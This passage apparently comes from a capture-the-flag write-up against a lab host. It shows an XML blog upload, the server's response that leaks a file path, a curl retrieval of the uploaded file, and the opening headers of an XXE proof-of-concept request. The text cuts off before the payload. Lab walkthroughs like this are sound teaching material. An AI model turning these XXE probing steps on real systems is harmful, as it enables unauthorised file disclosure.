 After the information about the blog in general, there’s an `<entry>` section, and inside that is a `<content>` tag. And while there’s no `<author>` or `<subject>`, those would seem like they might fit there, so let’s give that a try.

Submit this file:

```

<entry>
<Author>0xdf</Author>
<Subject>Testing</Subject>
<Content>This is a test</Content>
</entry>

```

And get this response:

```

HTTP/1.1 200 OK
Server: gunicorn/19.7.1
Date: Mon, 04 Jun 2018 19:17:00 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 163

 PROCESSED BLOGPOST:
  Author: 0xdf
 Subject: Testing
 Content: This is a test
 URL for later reference: /uploads/0xdf.xml
 File path: /home/roosa/deploy/src

```

Further more, the file is where they say it is:

```

root@kali# curl http://10.10.10.91:5000/uploads/0xdf.xml
<item>
<Author>0xdf</Author>
<Subject>Testing</Subject>
<Content>This is a test</Content>
</item>

```

### XXE POC

With that understanding of how to interact with the site, I’ll start looking for an XXE attack. Since the xml is displayed back to me, I can use a direct method, reading a file into an entity, and then calling it:

```

POST /upload HTTP/1.1
Host: 10.10.10.91:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.91:5000/upload
Content-Type: multipart/form-data; boundary=---------------------------1864243787215350191713873567
Content-Length: 465
Connection: close
Upgrade-Insecure-Requests: 1
```